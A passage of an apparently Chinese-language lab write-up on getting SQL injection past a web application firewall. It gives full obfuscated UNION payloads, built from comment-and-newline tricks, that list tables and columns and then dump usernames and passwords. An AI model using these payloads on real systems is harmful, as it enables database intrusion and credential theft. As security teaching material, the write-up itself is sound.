 对`information_schema`进行混淆测试：

首先使用内联注释，发现，这里的版本号不管写啥，都直接被拦。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180219.png)

考虑是检测了`select + from + /*! + information_schema`的组合

加个换行试试

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180221.png)

还是不行...

那既然都换行了，那我们再在换行前加一些垃圾字符：

> 如果我们直接插入垃圾字符，会当作SQL语句执行，所以前面还需要在垃圾字符前加个注释，可以是 `/**/`或`#`或`--+`
>
> 但是经过测试只有 `--+`好用

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180222.png)

有这么多可以绕过的，我们随便选择一个，比如`/*%/`

这样，最终语句如下：

    
    
    ?id=-1/*/!%!/*/union/*/!%!/*/select/*/!%!/*/1,group_concat(table_name),3/*/!%!/*/from/*/!%!/*//*!00000--+/*%/%0ainformation_schema.tables*/%20where%20table_schema=database(/*/!%!/*/)--%20+

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180225.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180227.png)

### 获取表字段

正常语句：

    
    
    ?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+

绕过语句：

    
    
    ?id=-1/*/!%!/*/union/*/!%!/*/select/*/!%!/*/1,group_concat(column_name),3/*/!%!/*/from/*/!%!/*//*!00000--+/*%/%0ainformation_schema.columns*/%20where%20table_name=0x7573657273--%20+

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180228.png)

### 获取字段信息

    
    
    ?id=-1/*/!%!/*/union/*/!%!/*/select/*/!%!/*/1,/*/!%!/*/group_concat(username,0x2f,password),3/*/!%!/*/from/*/!%!/*/users

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180229.png)

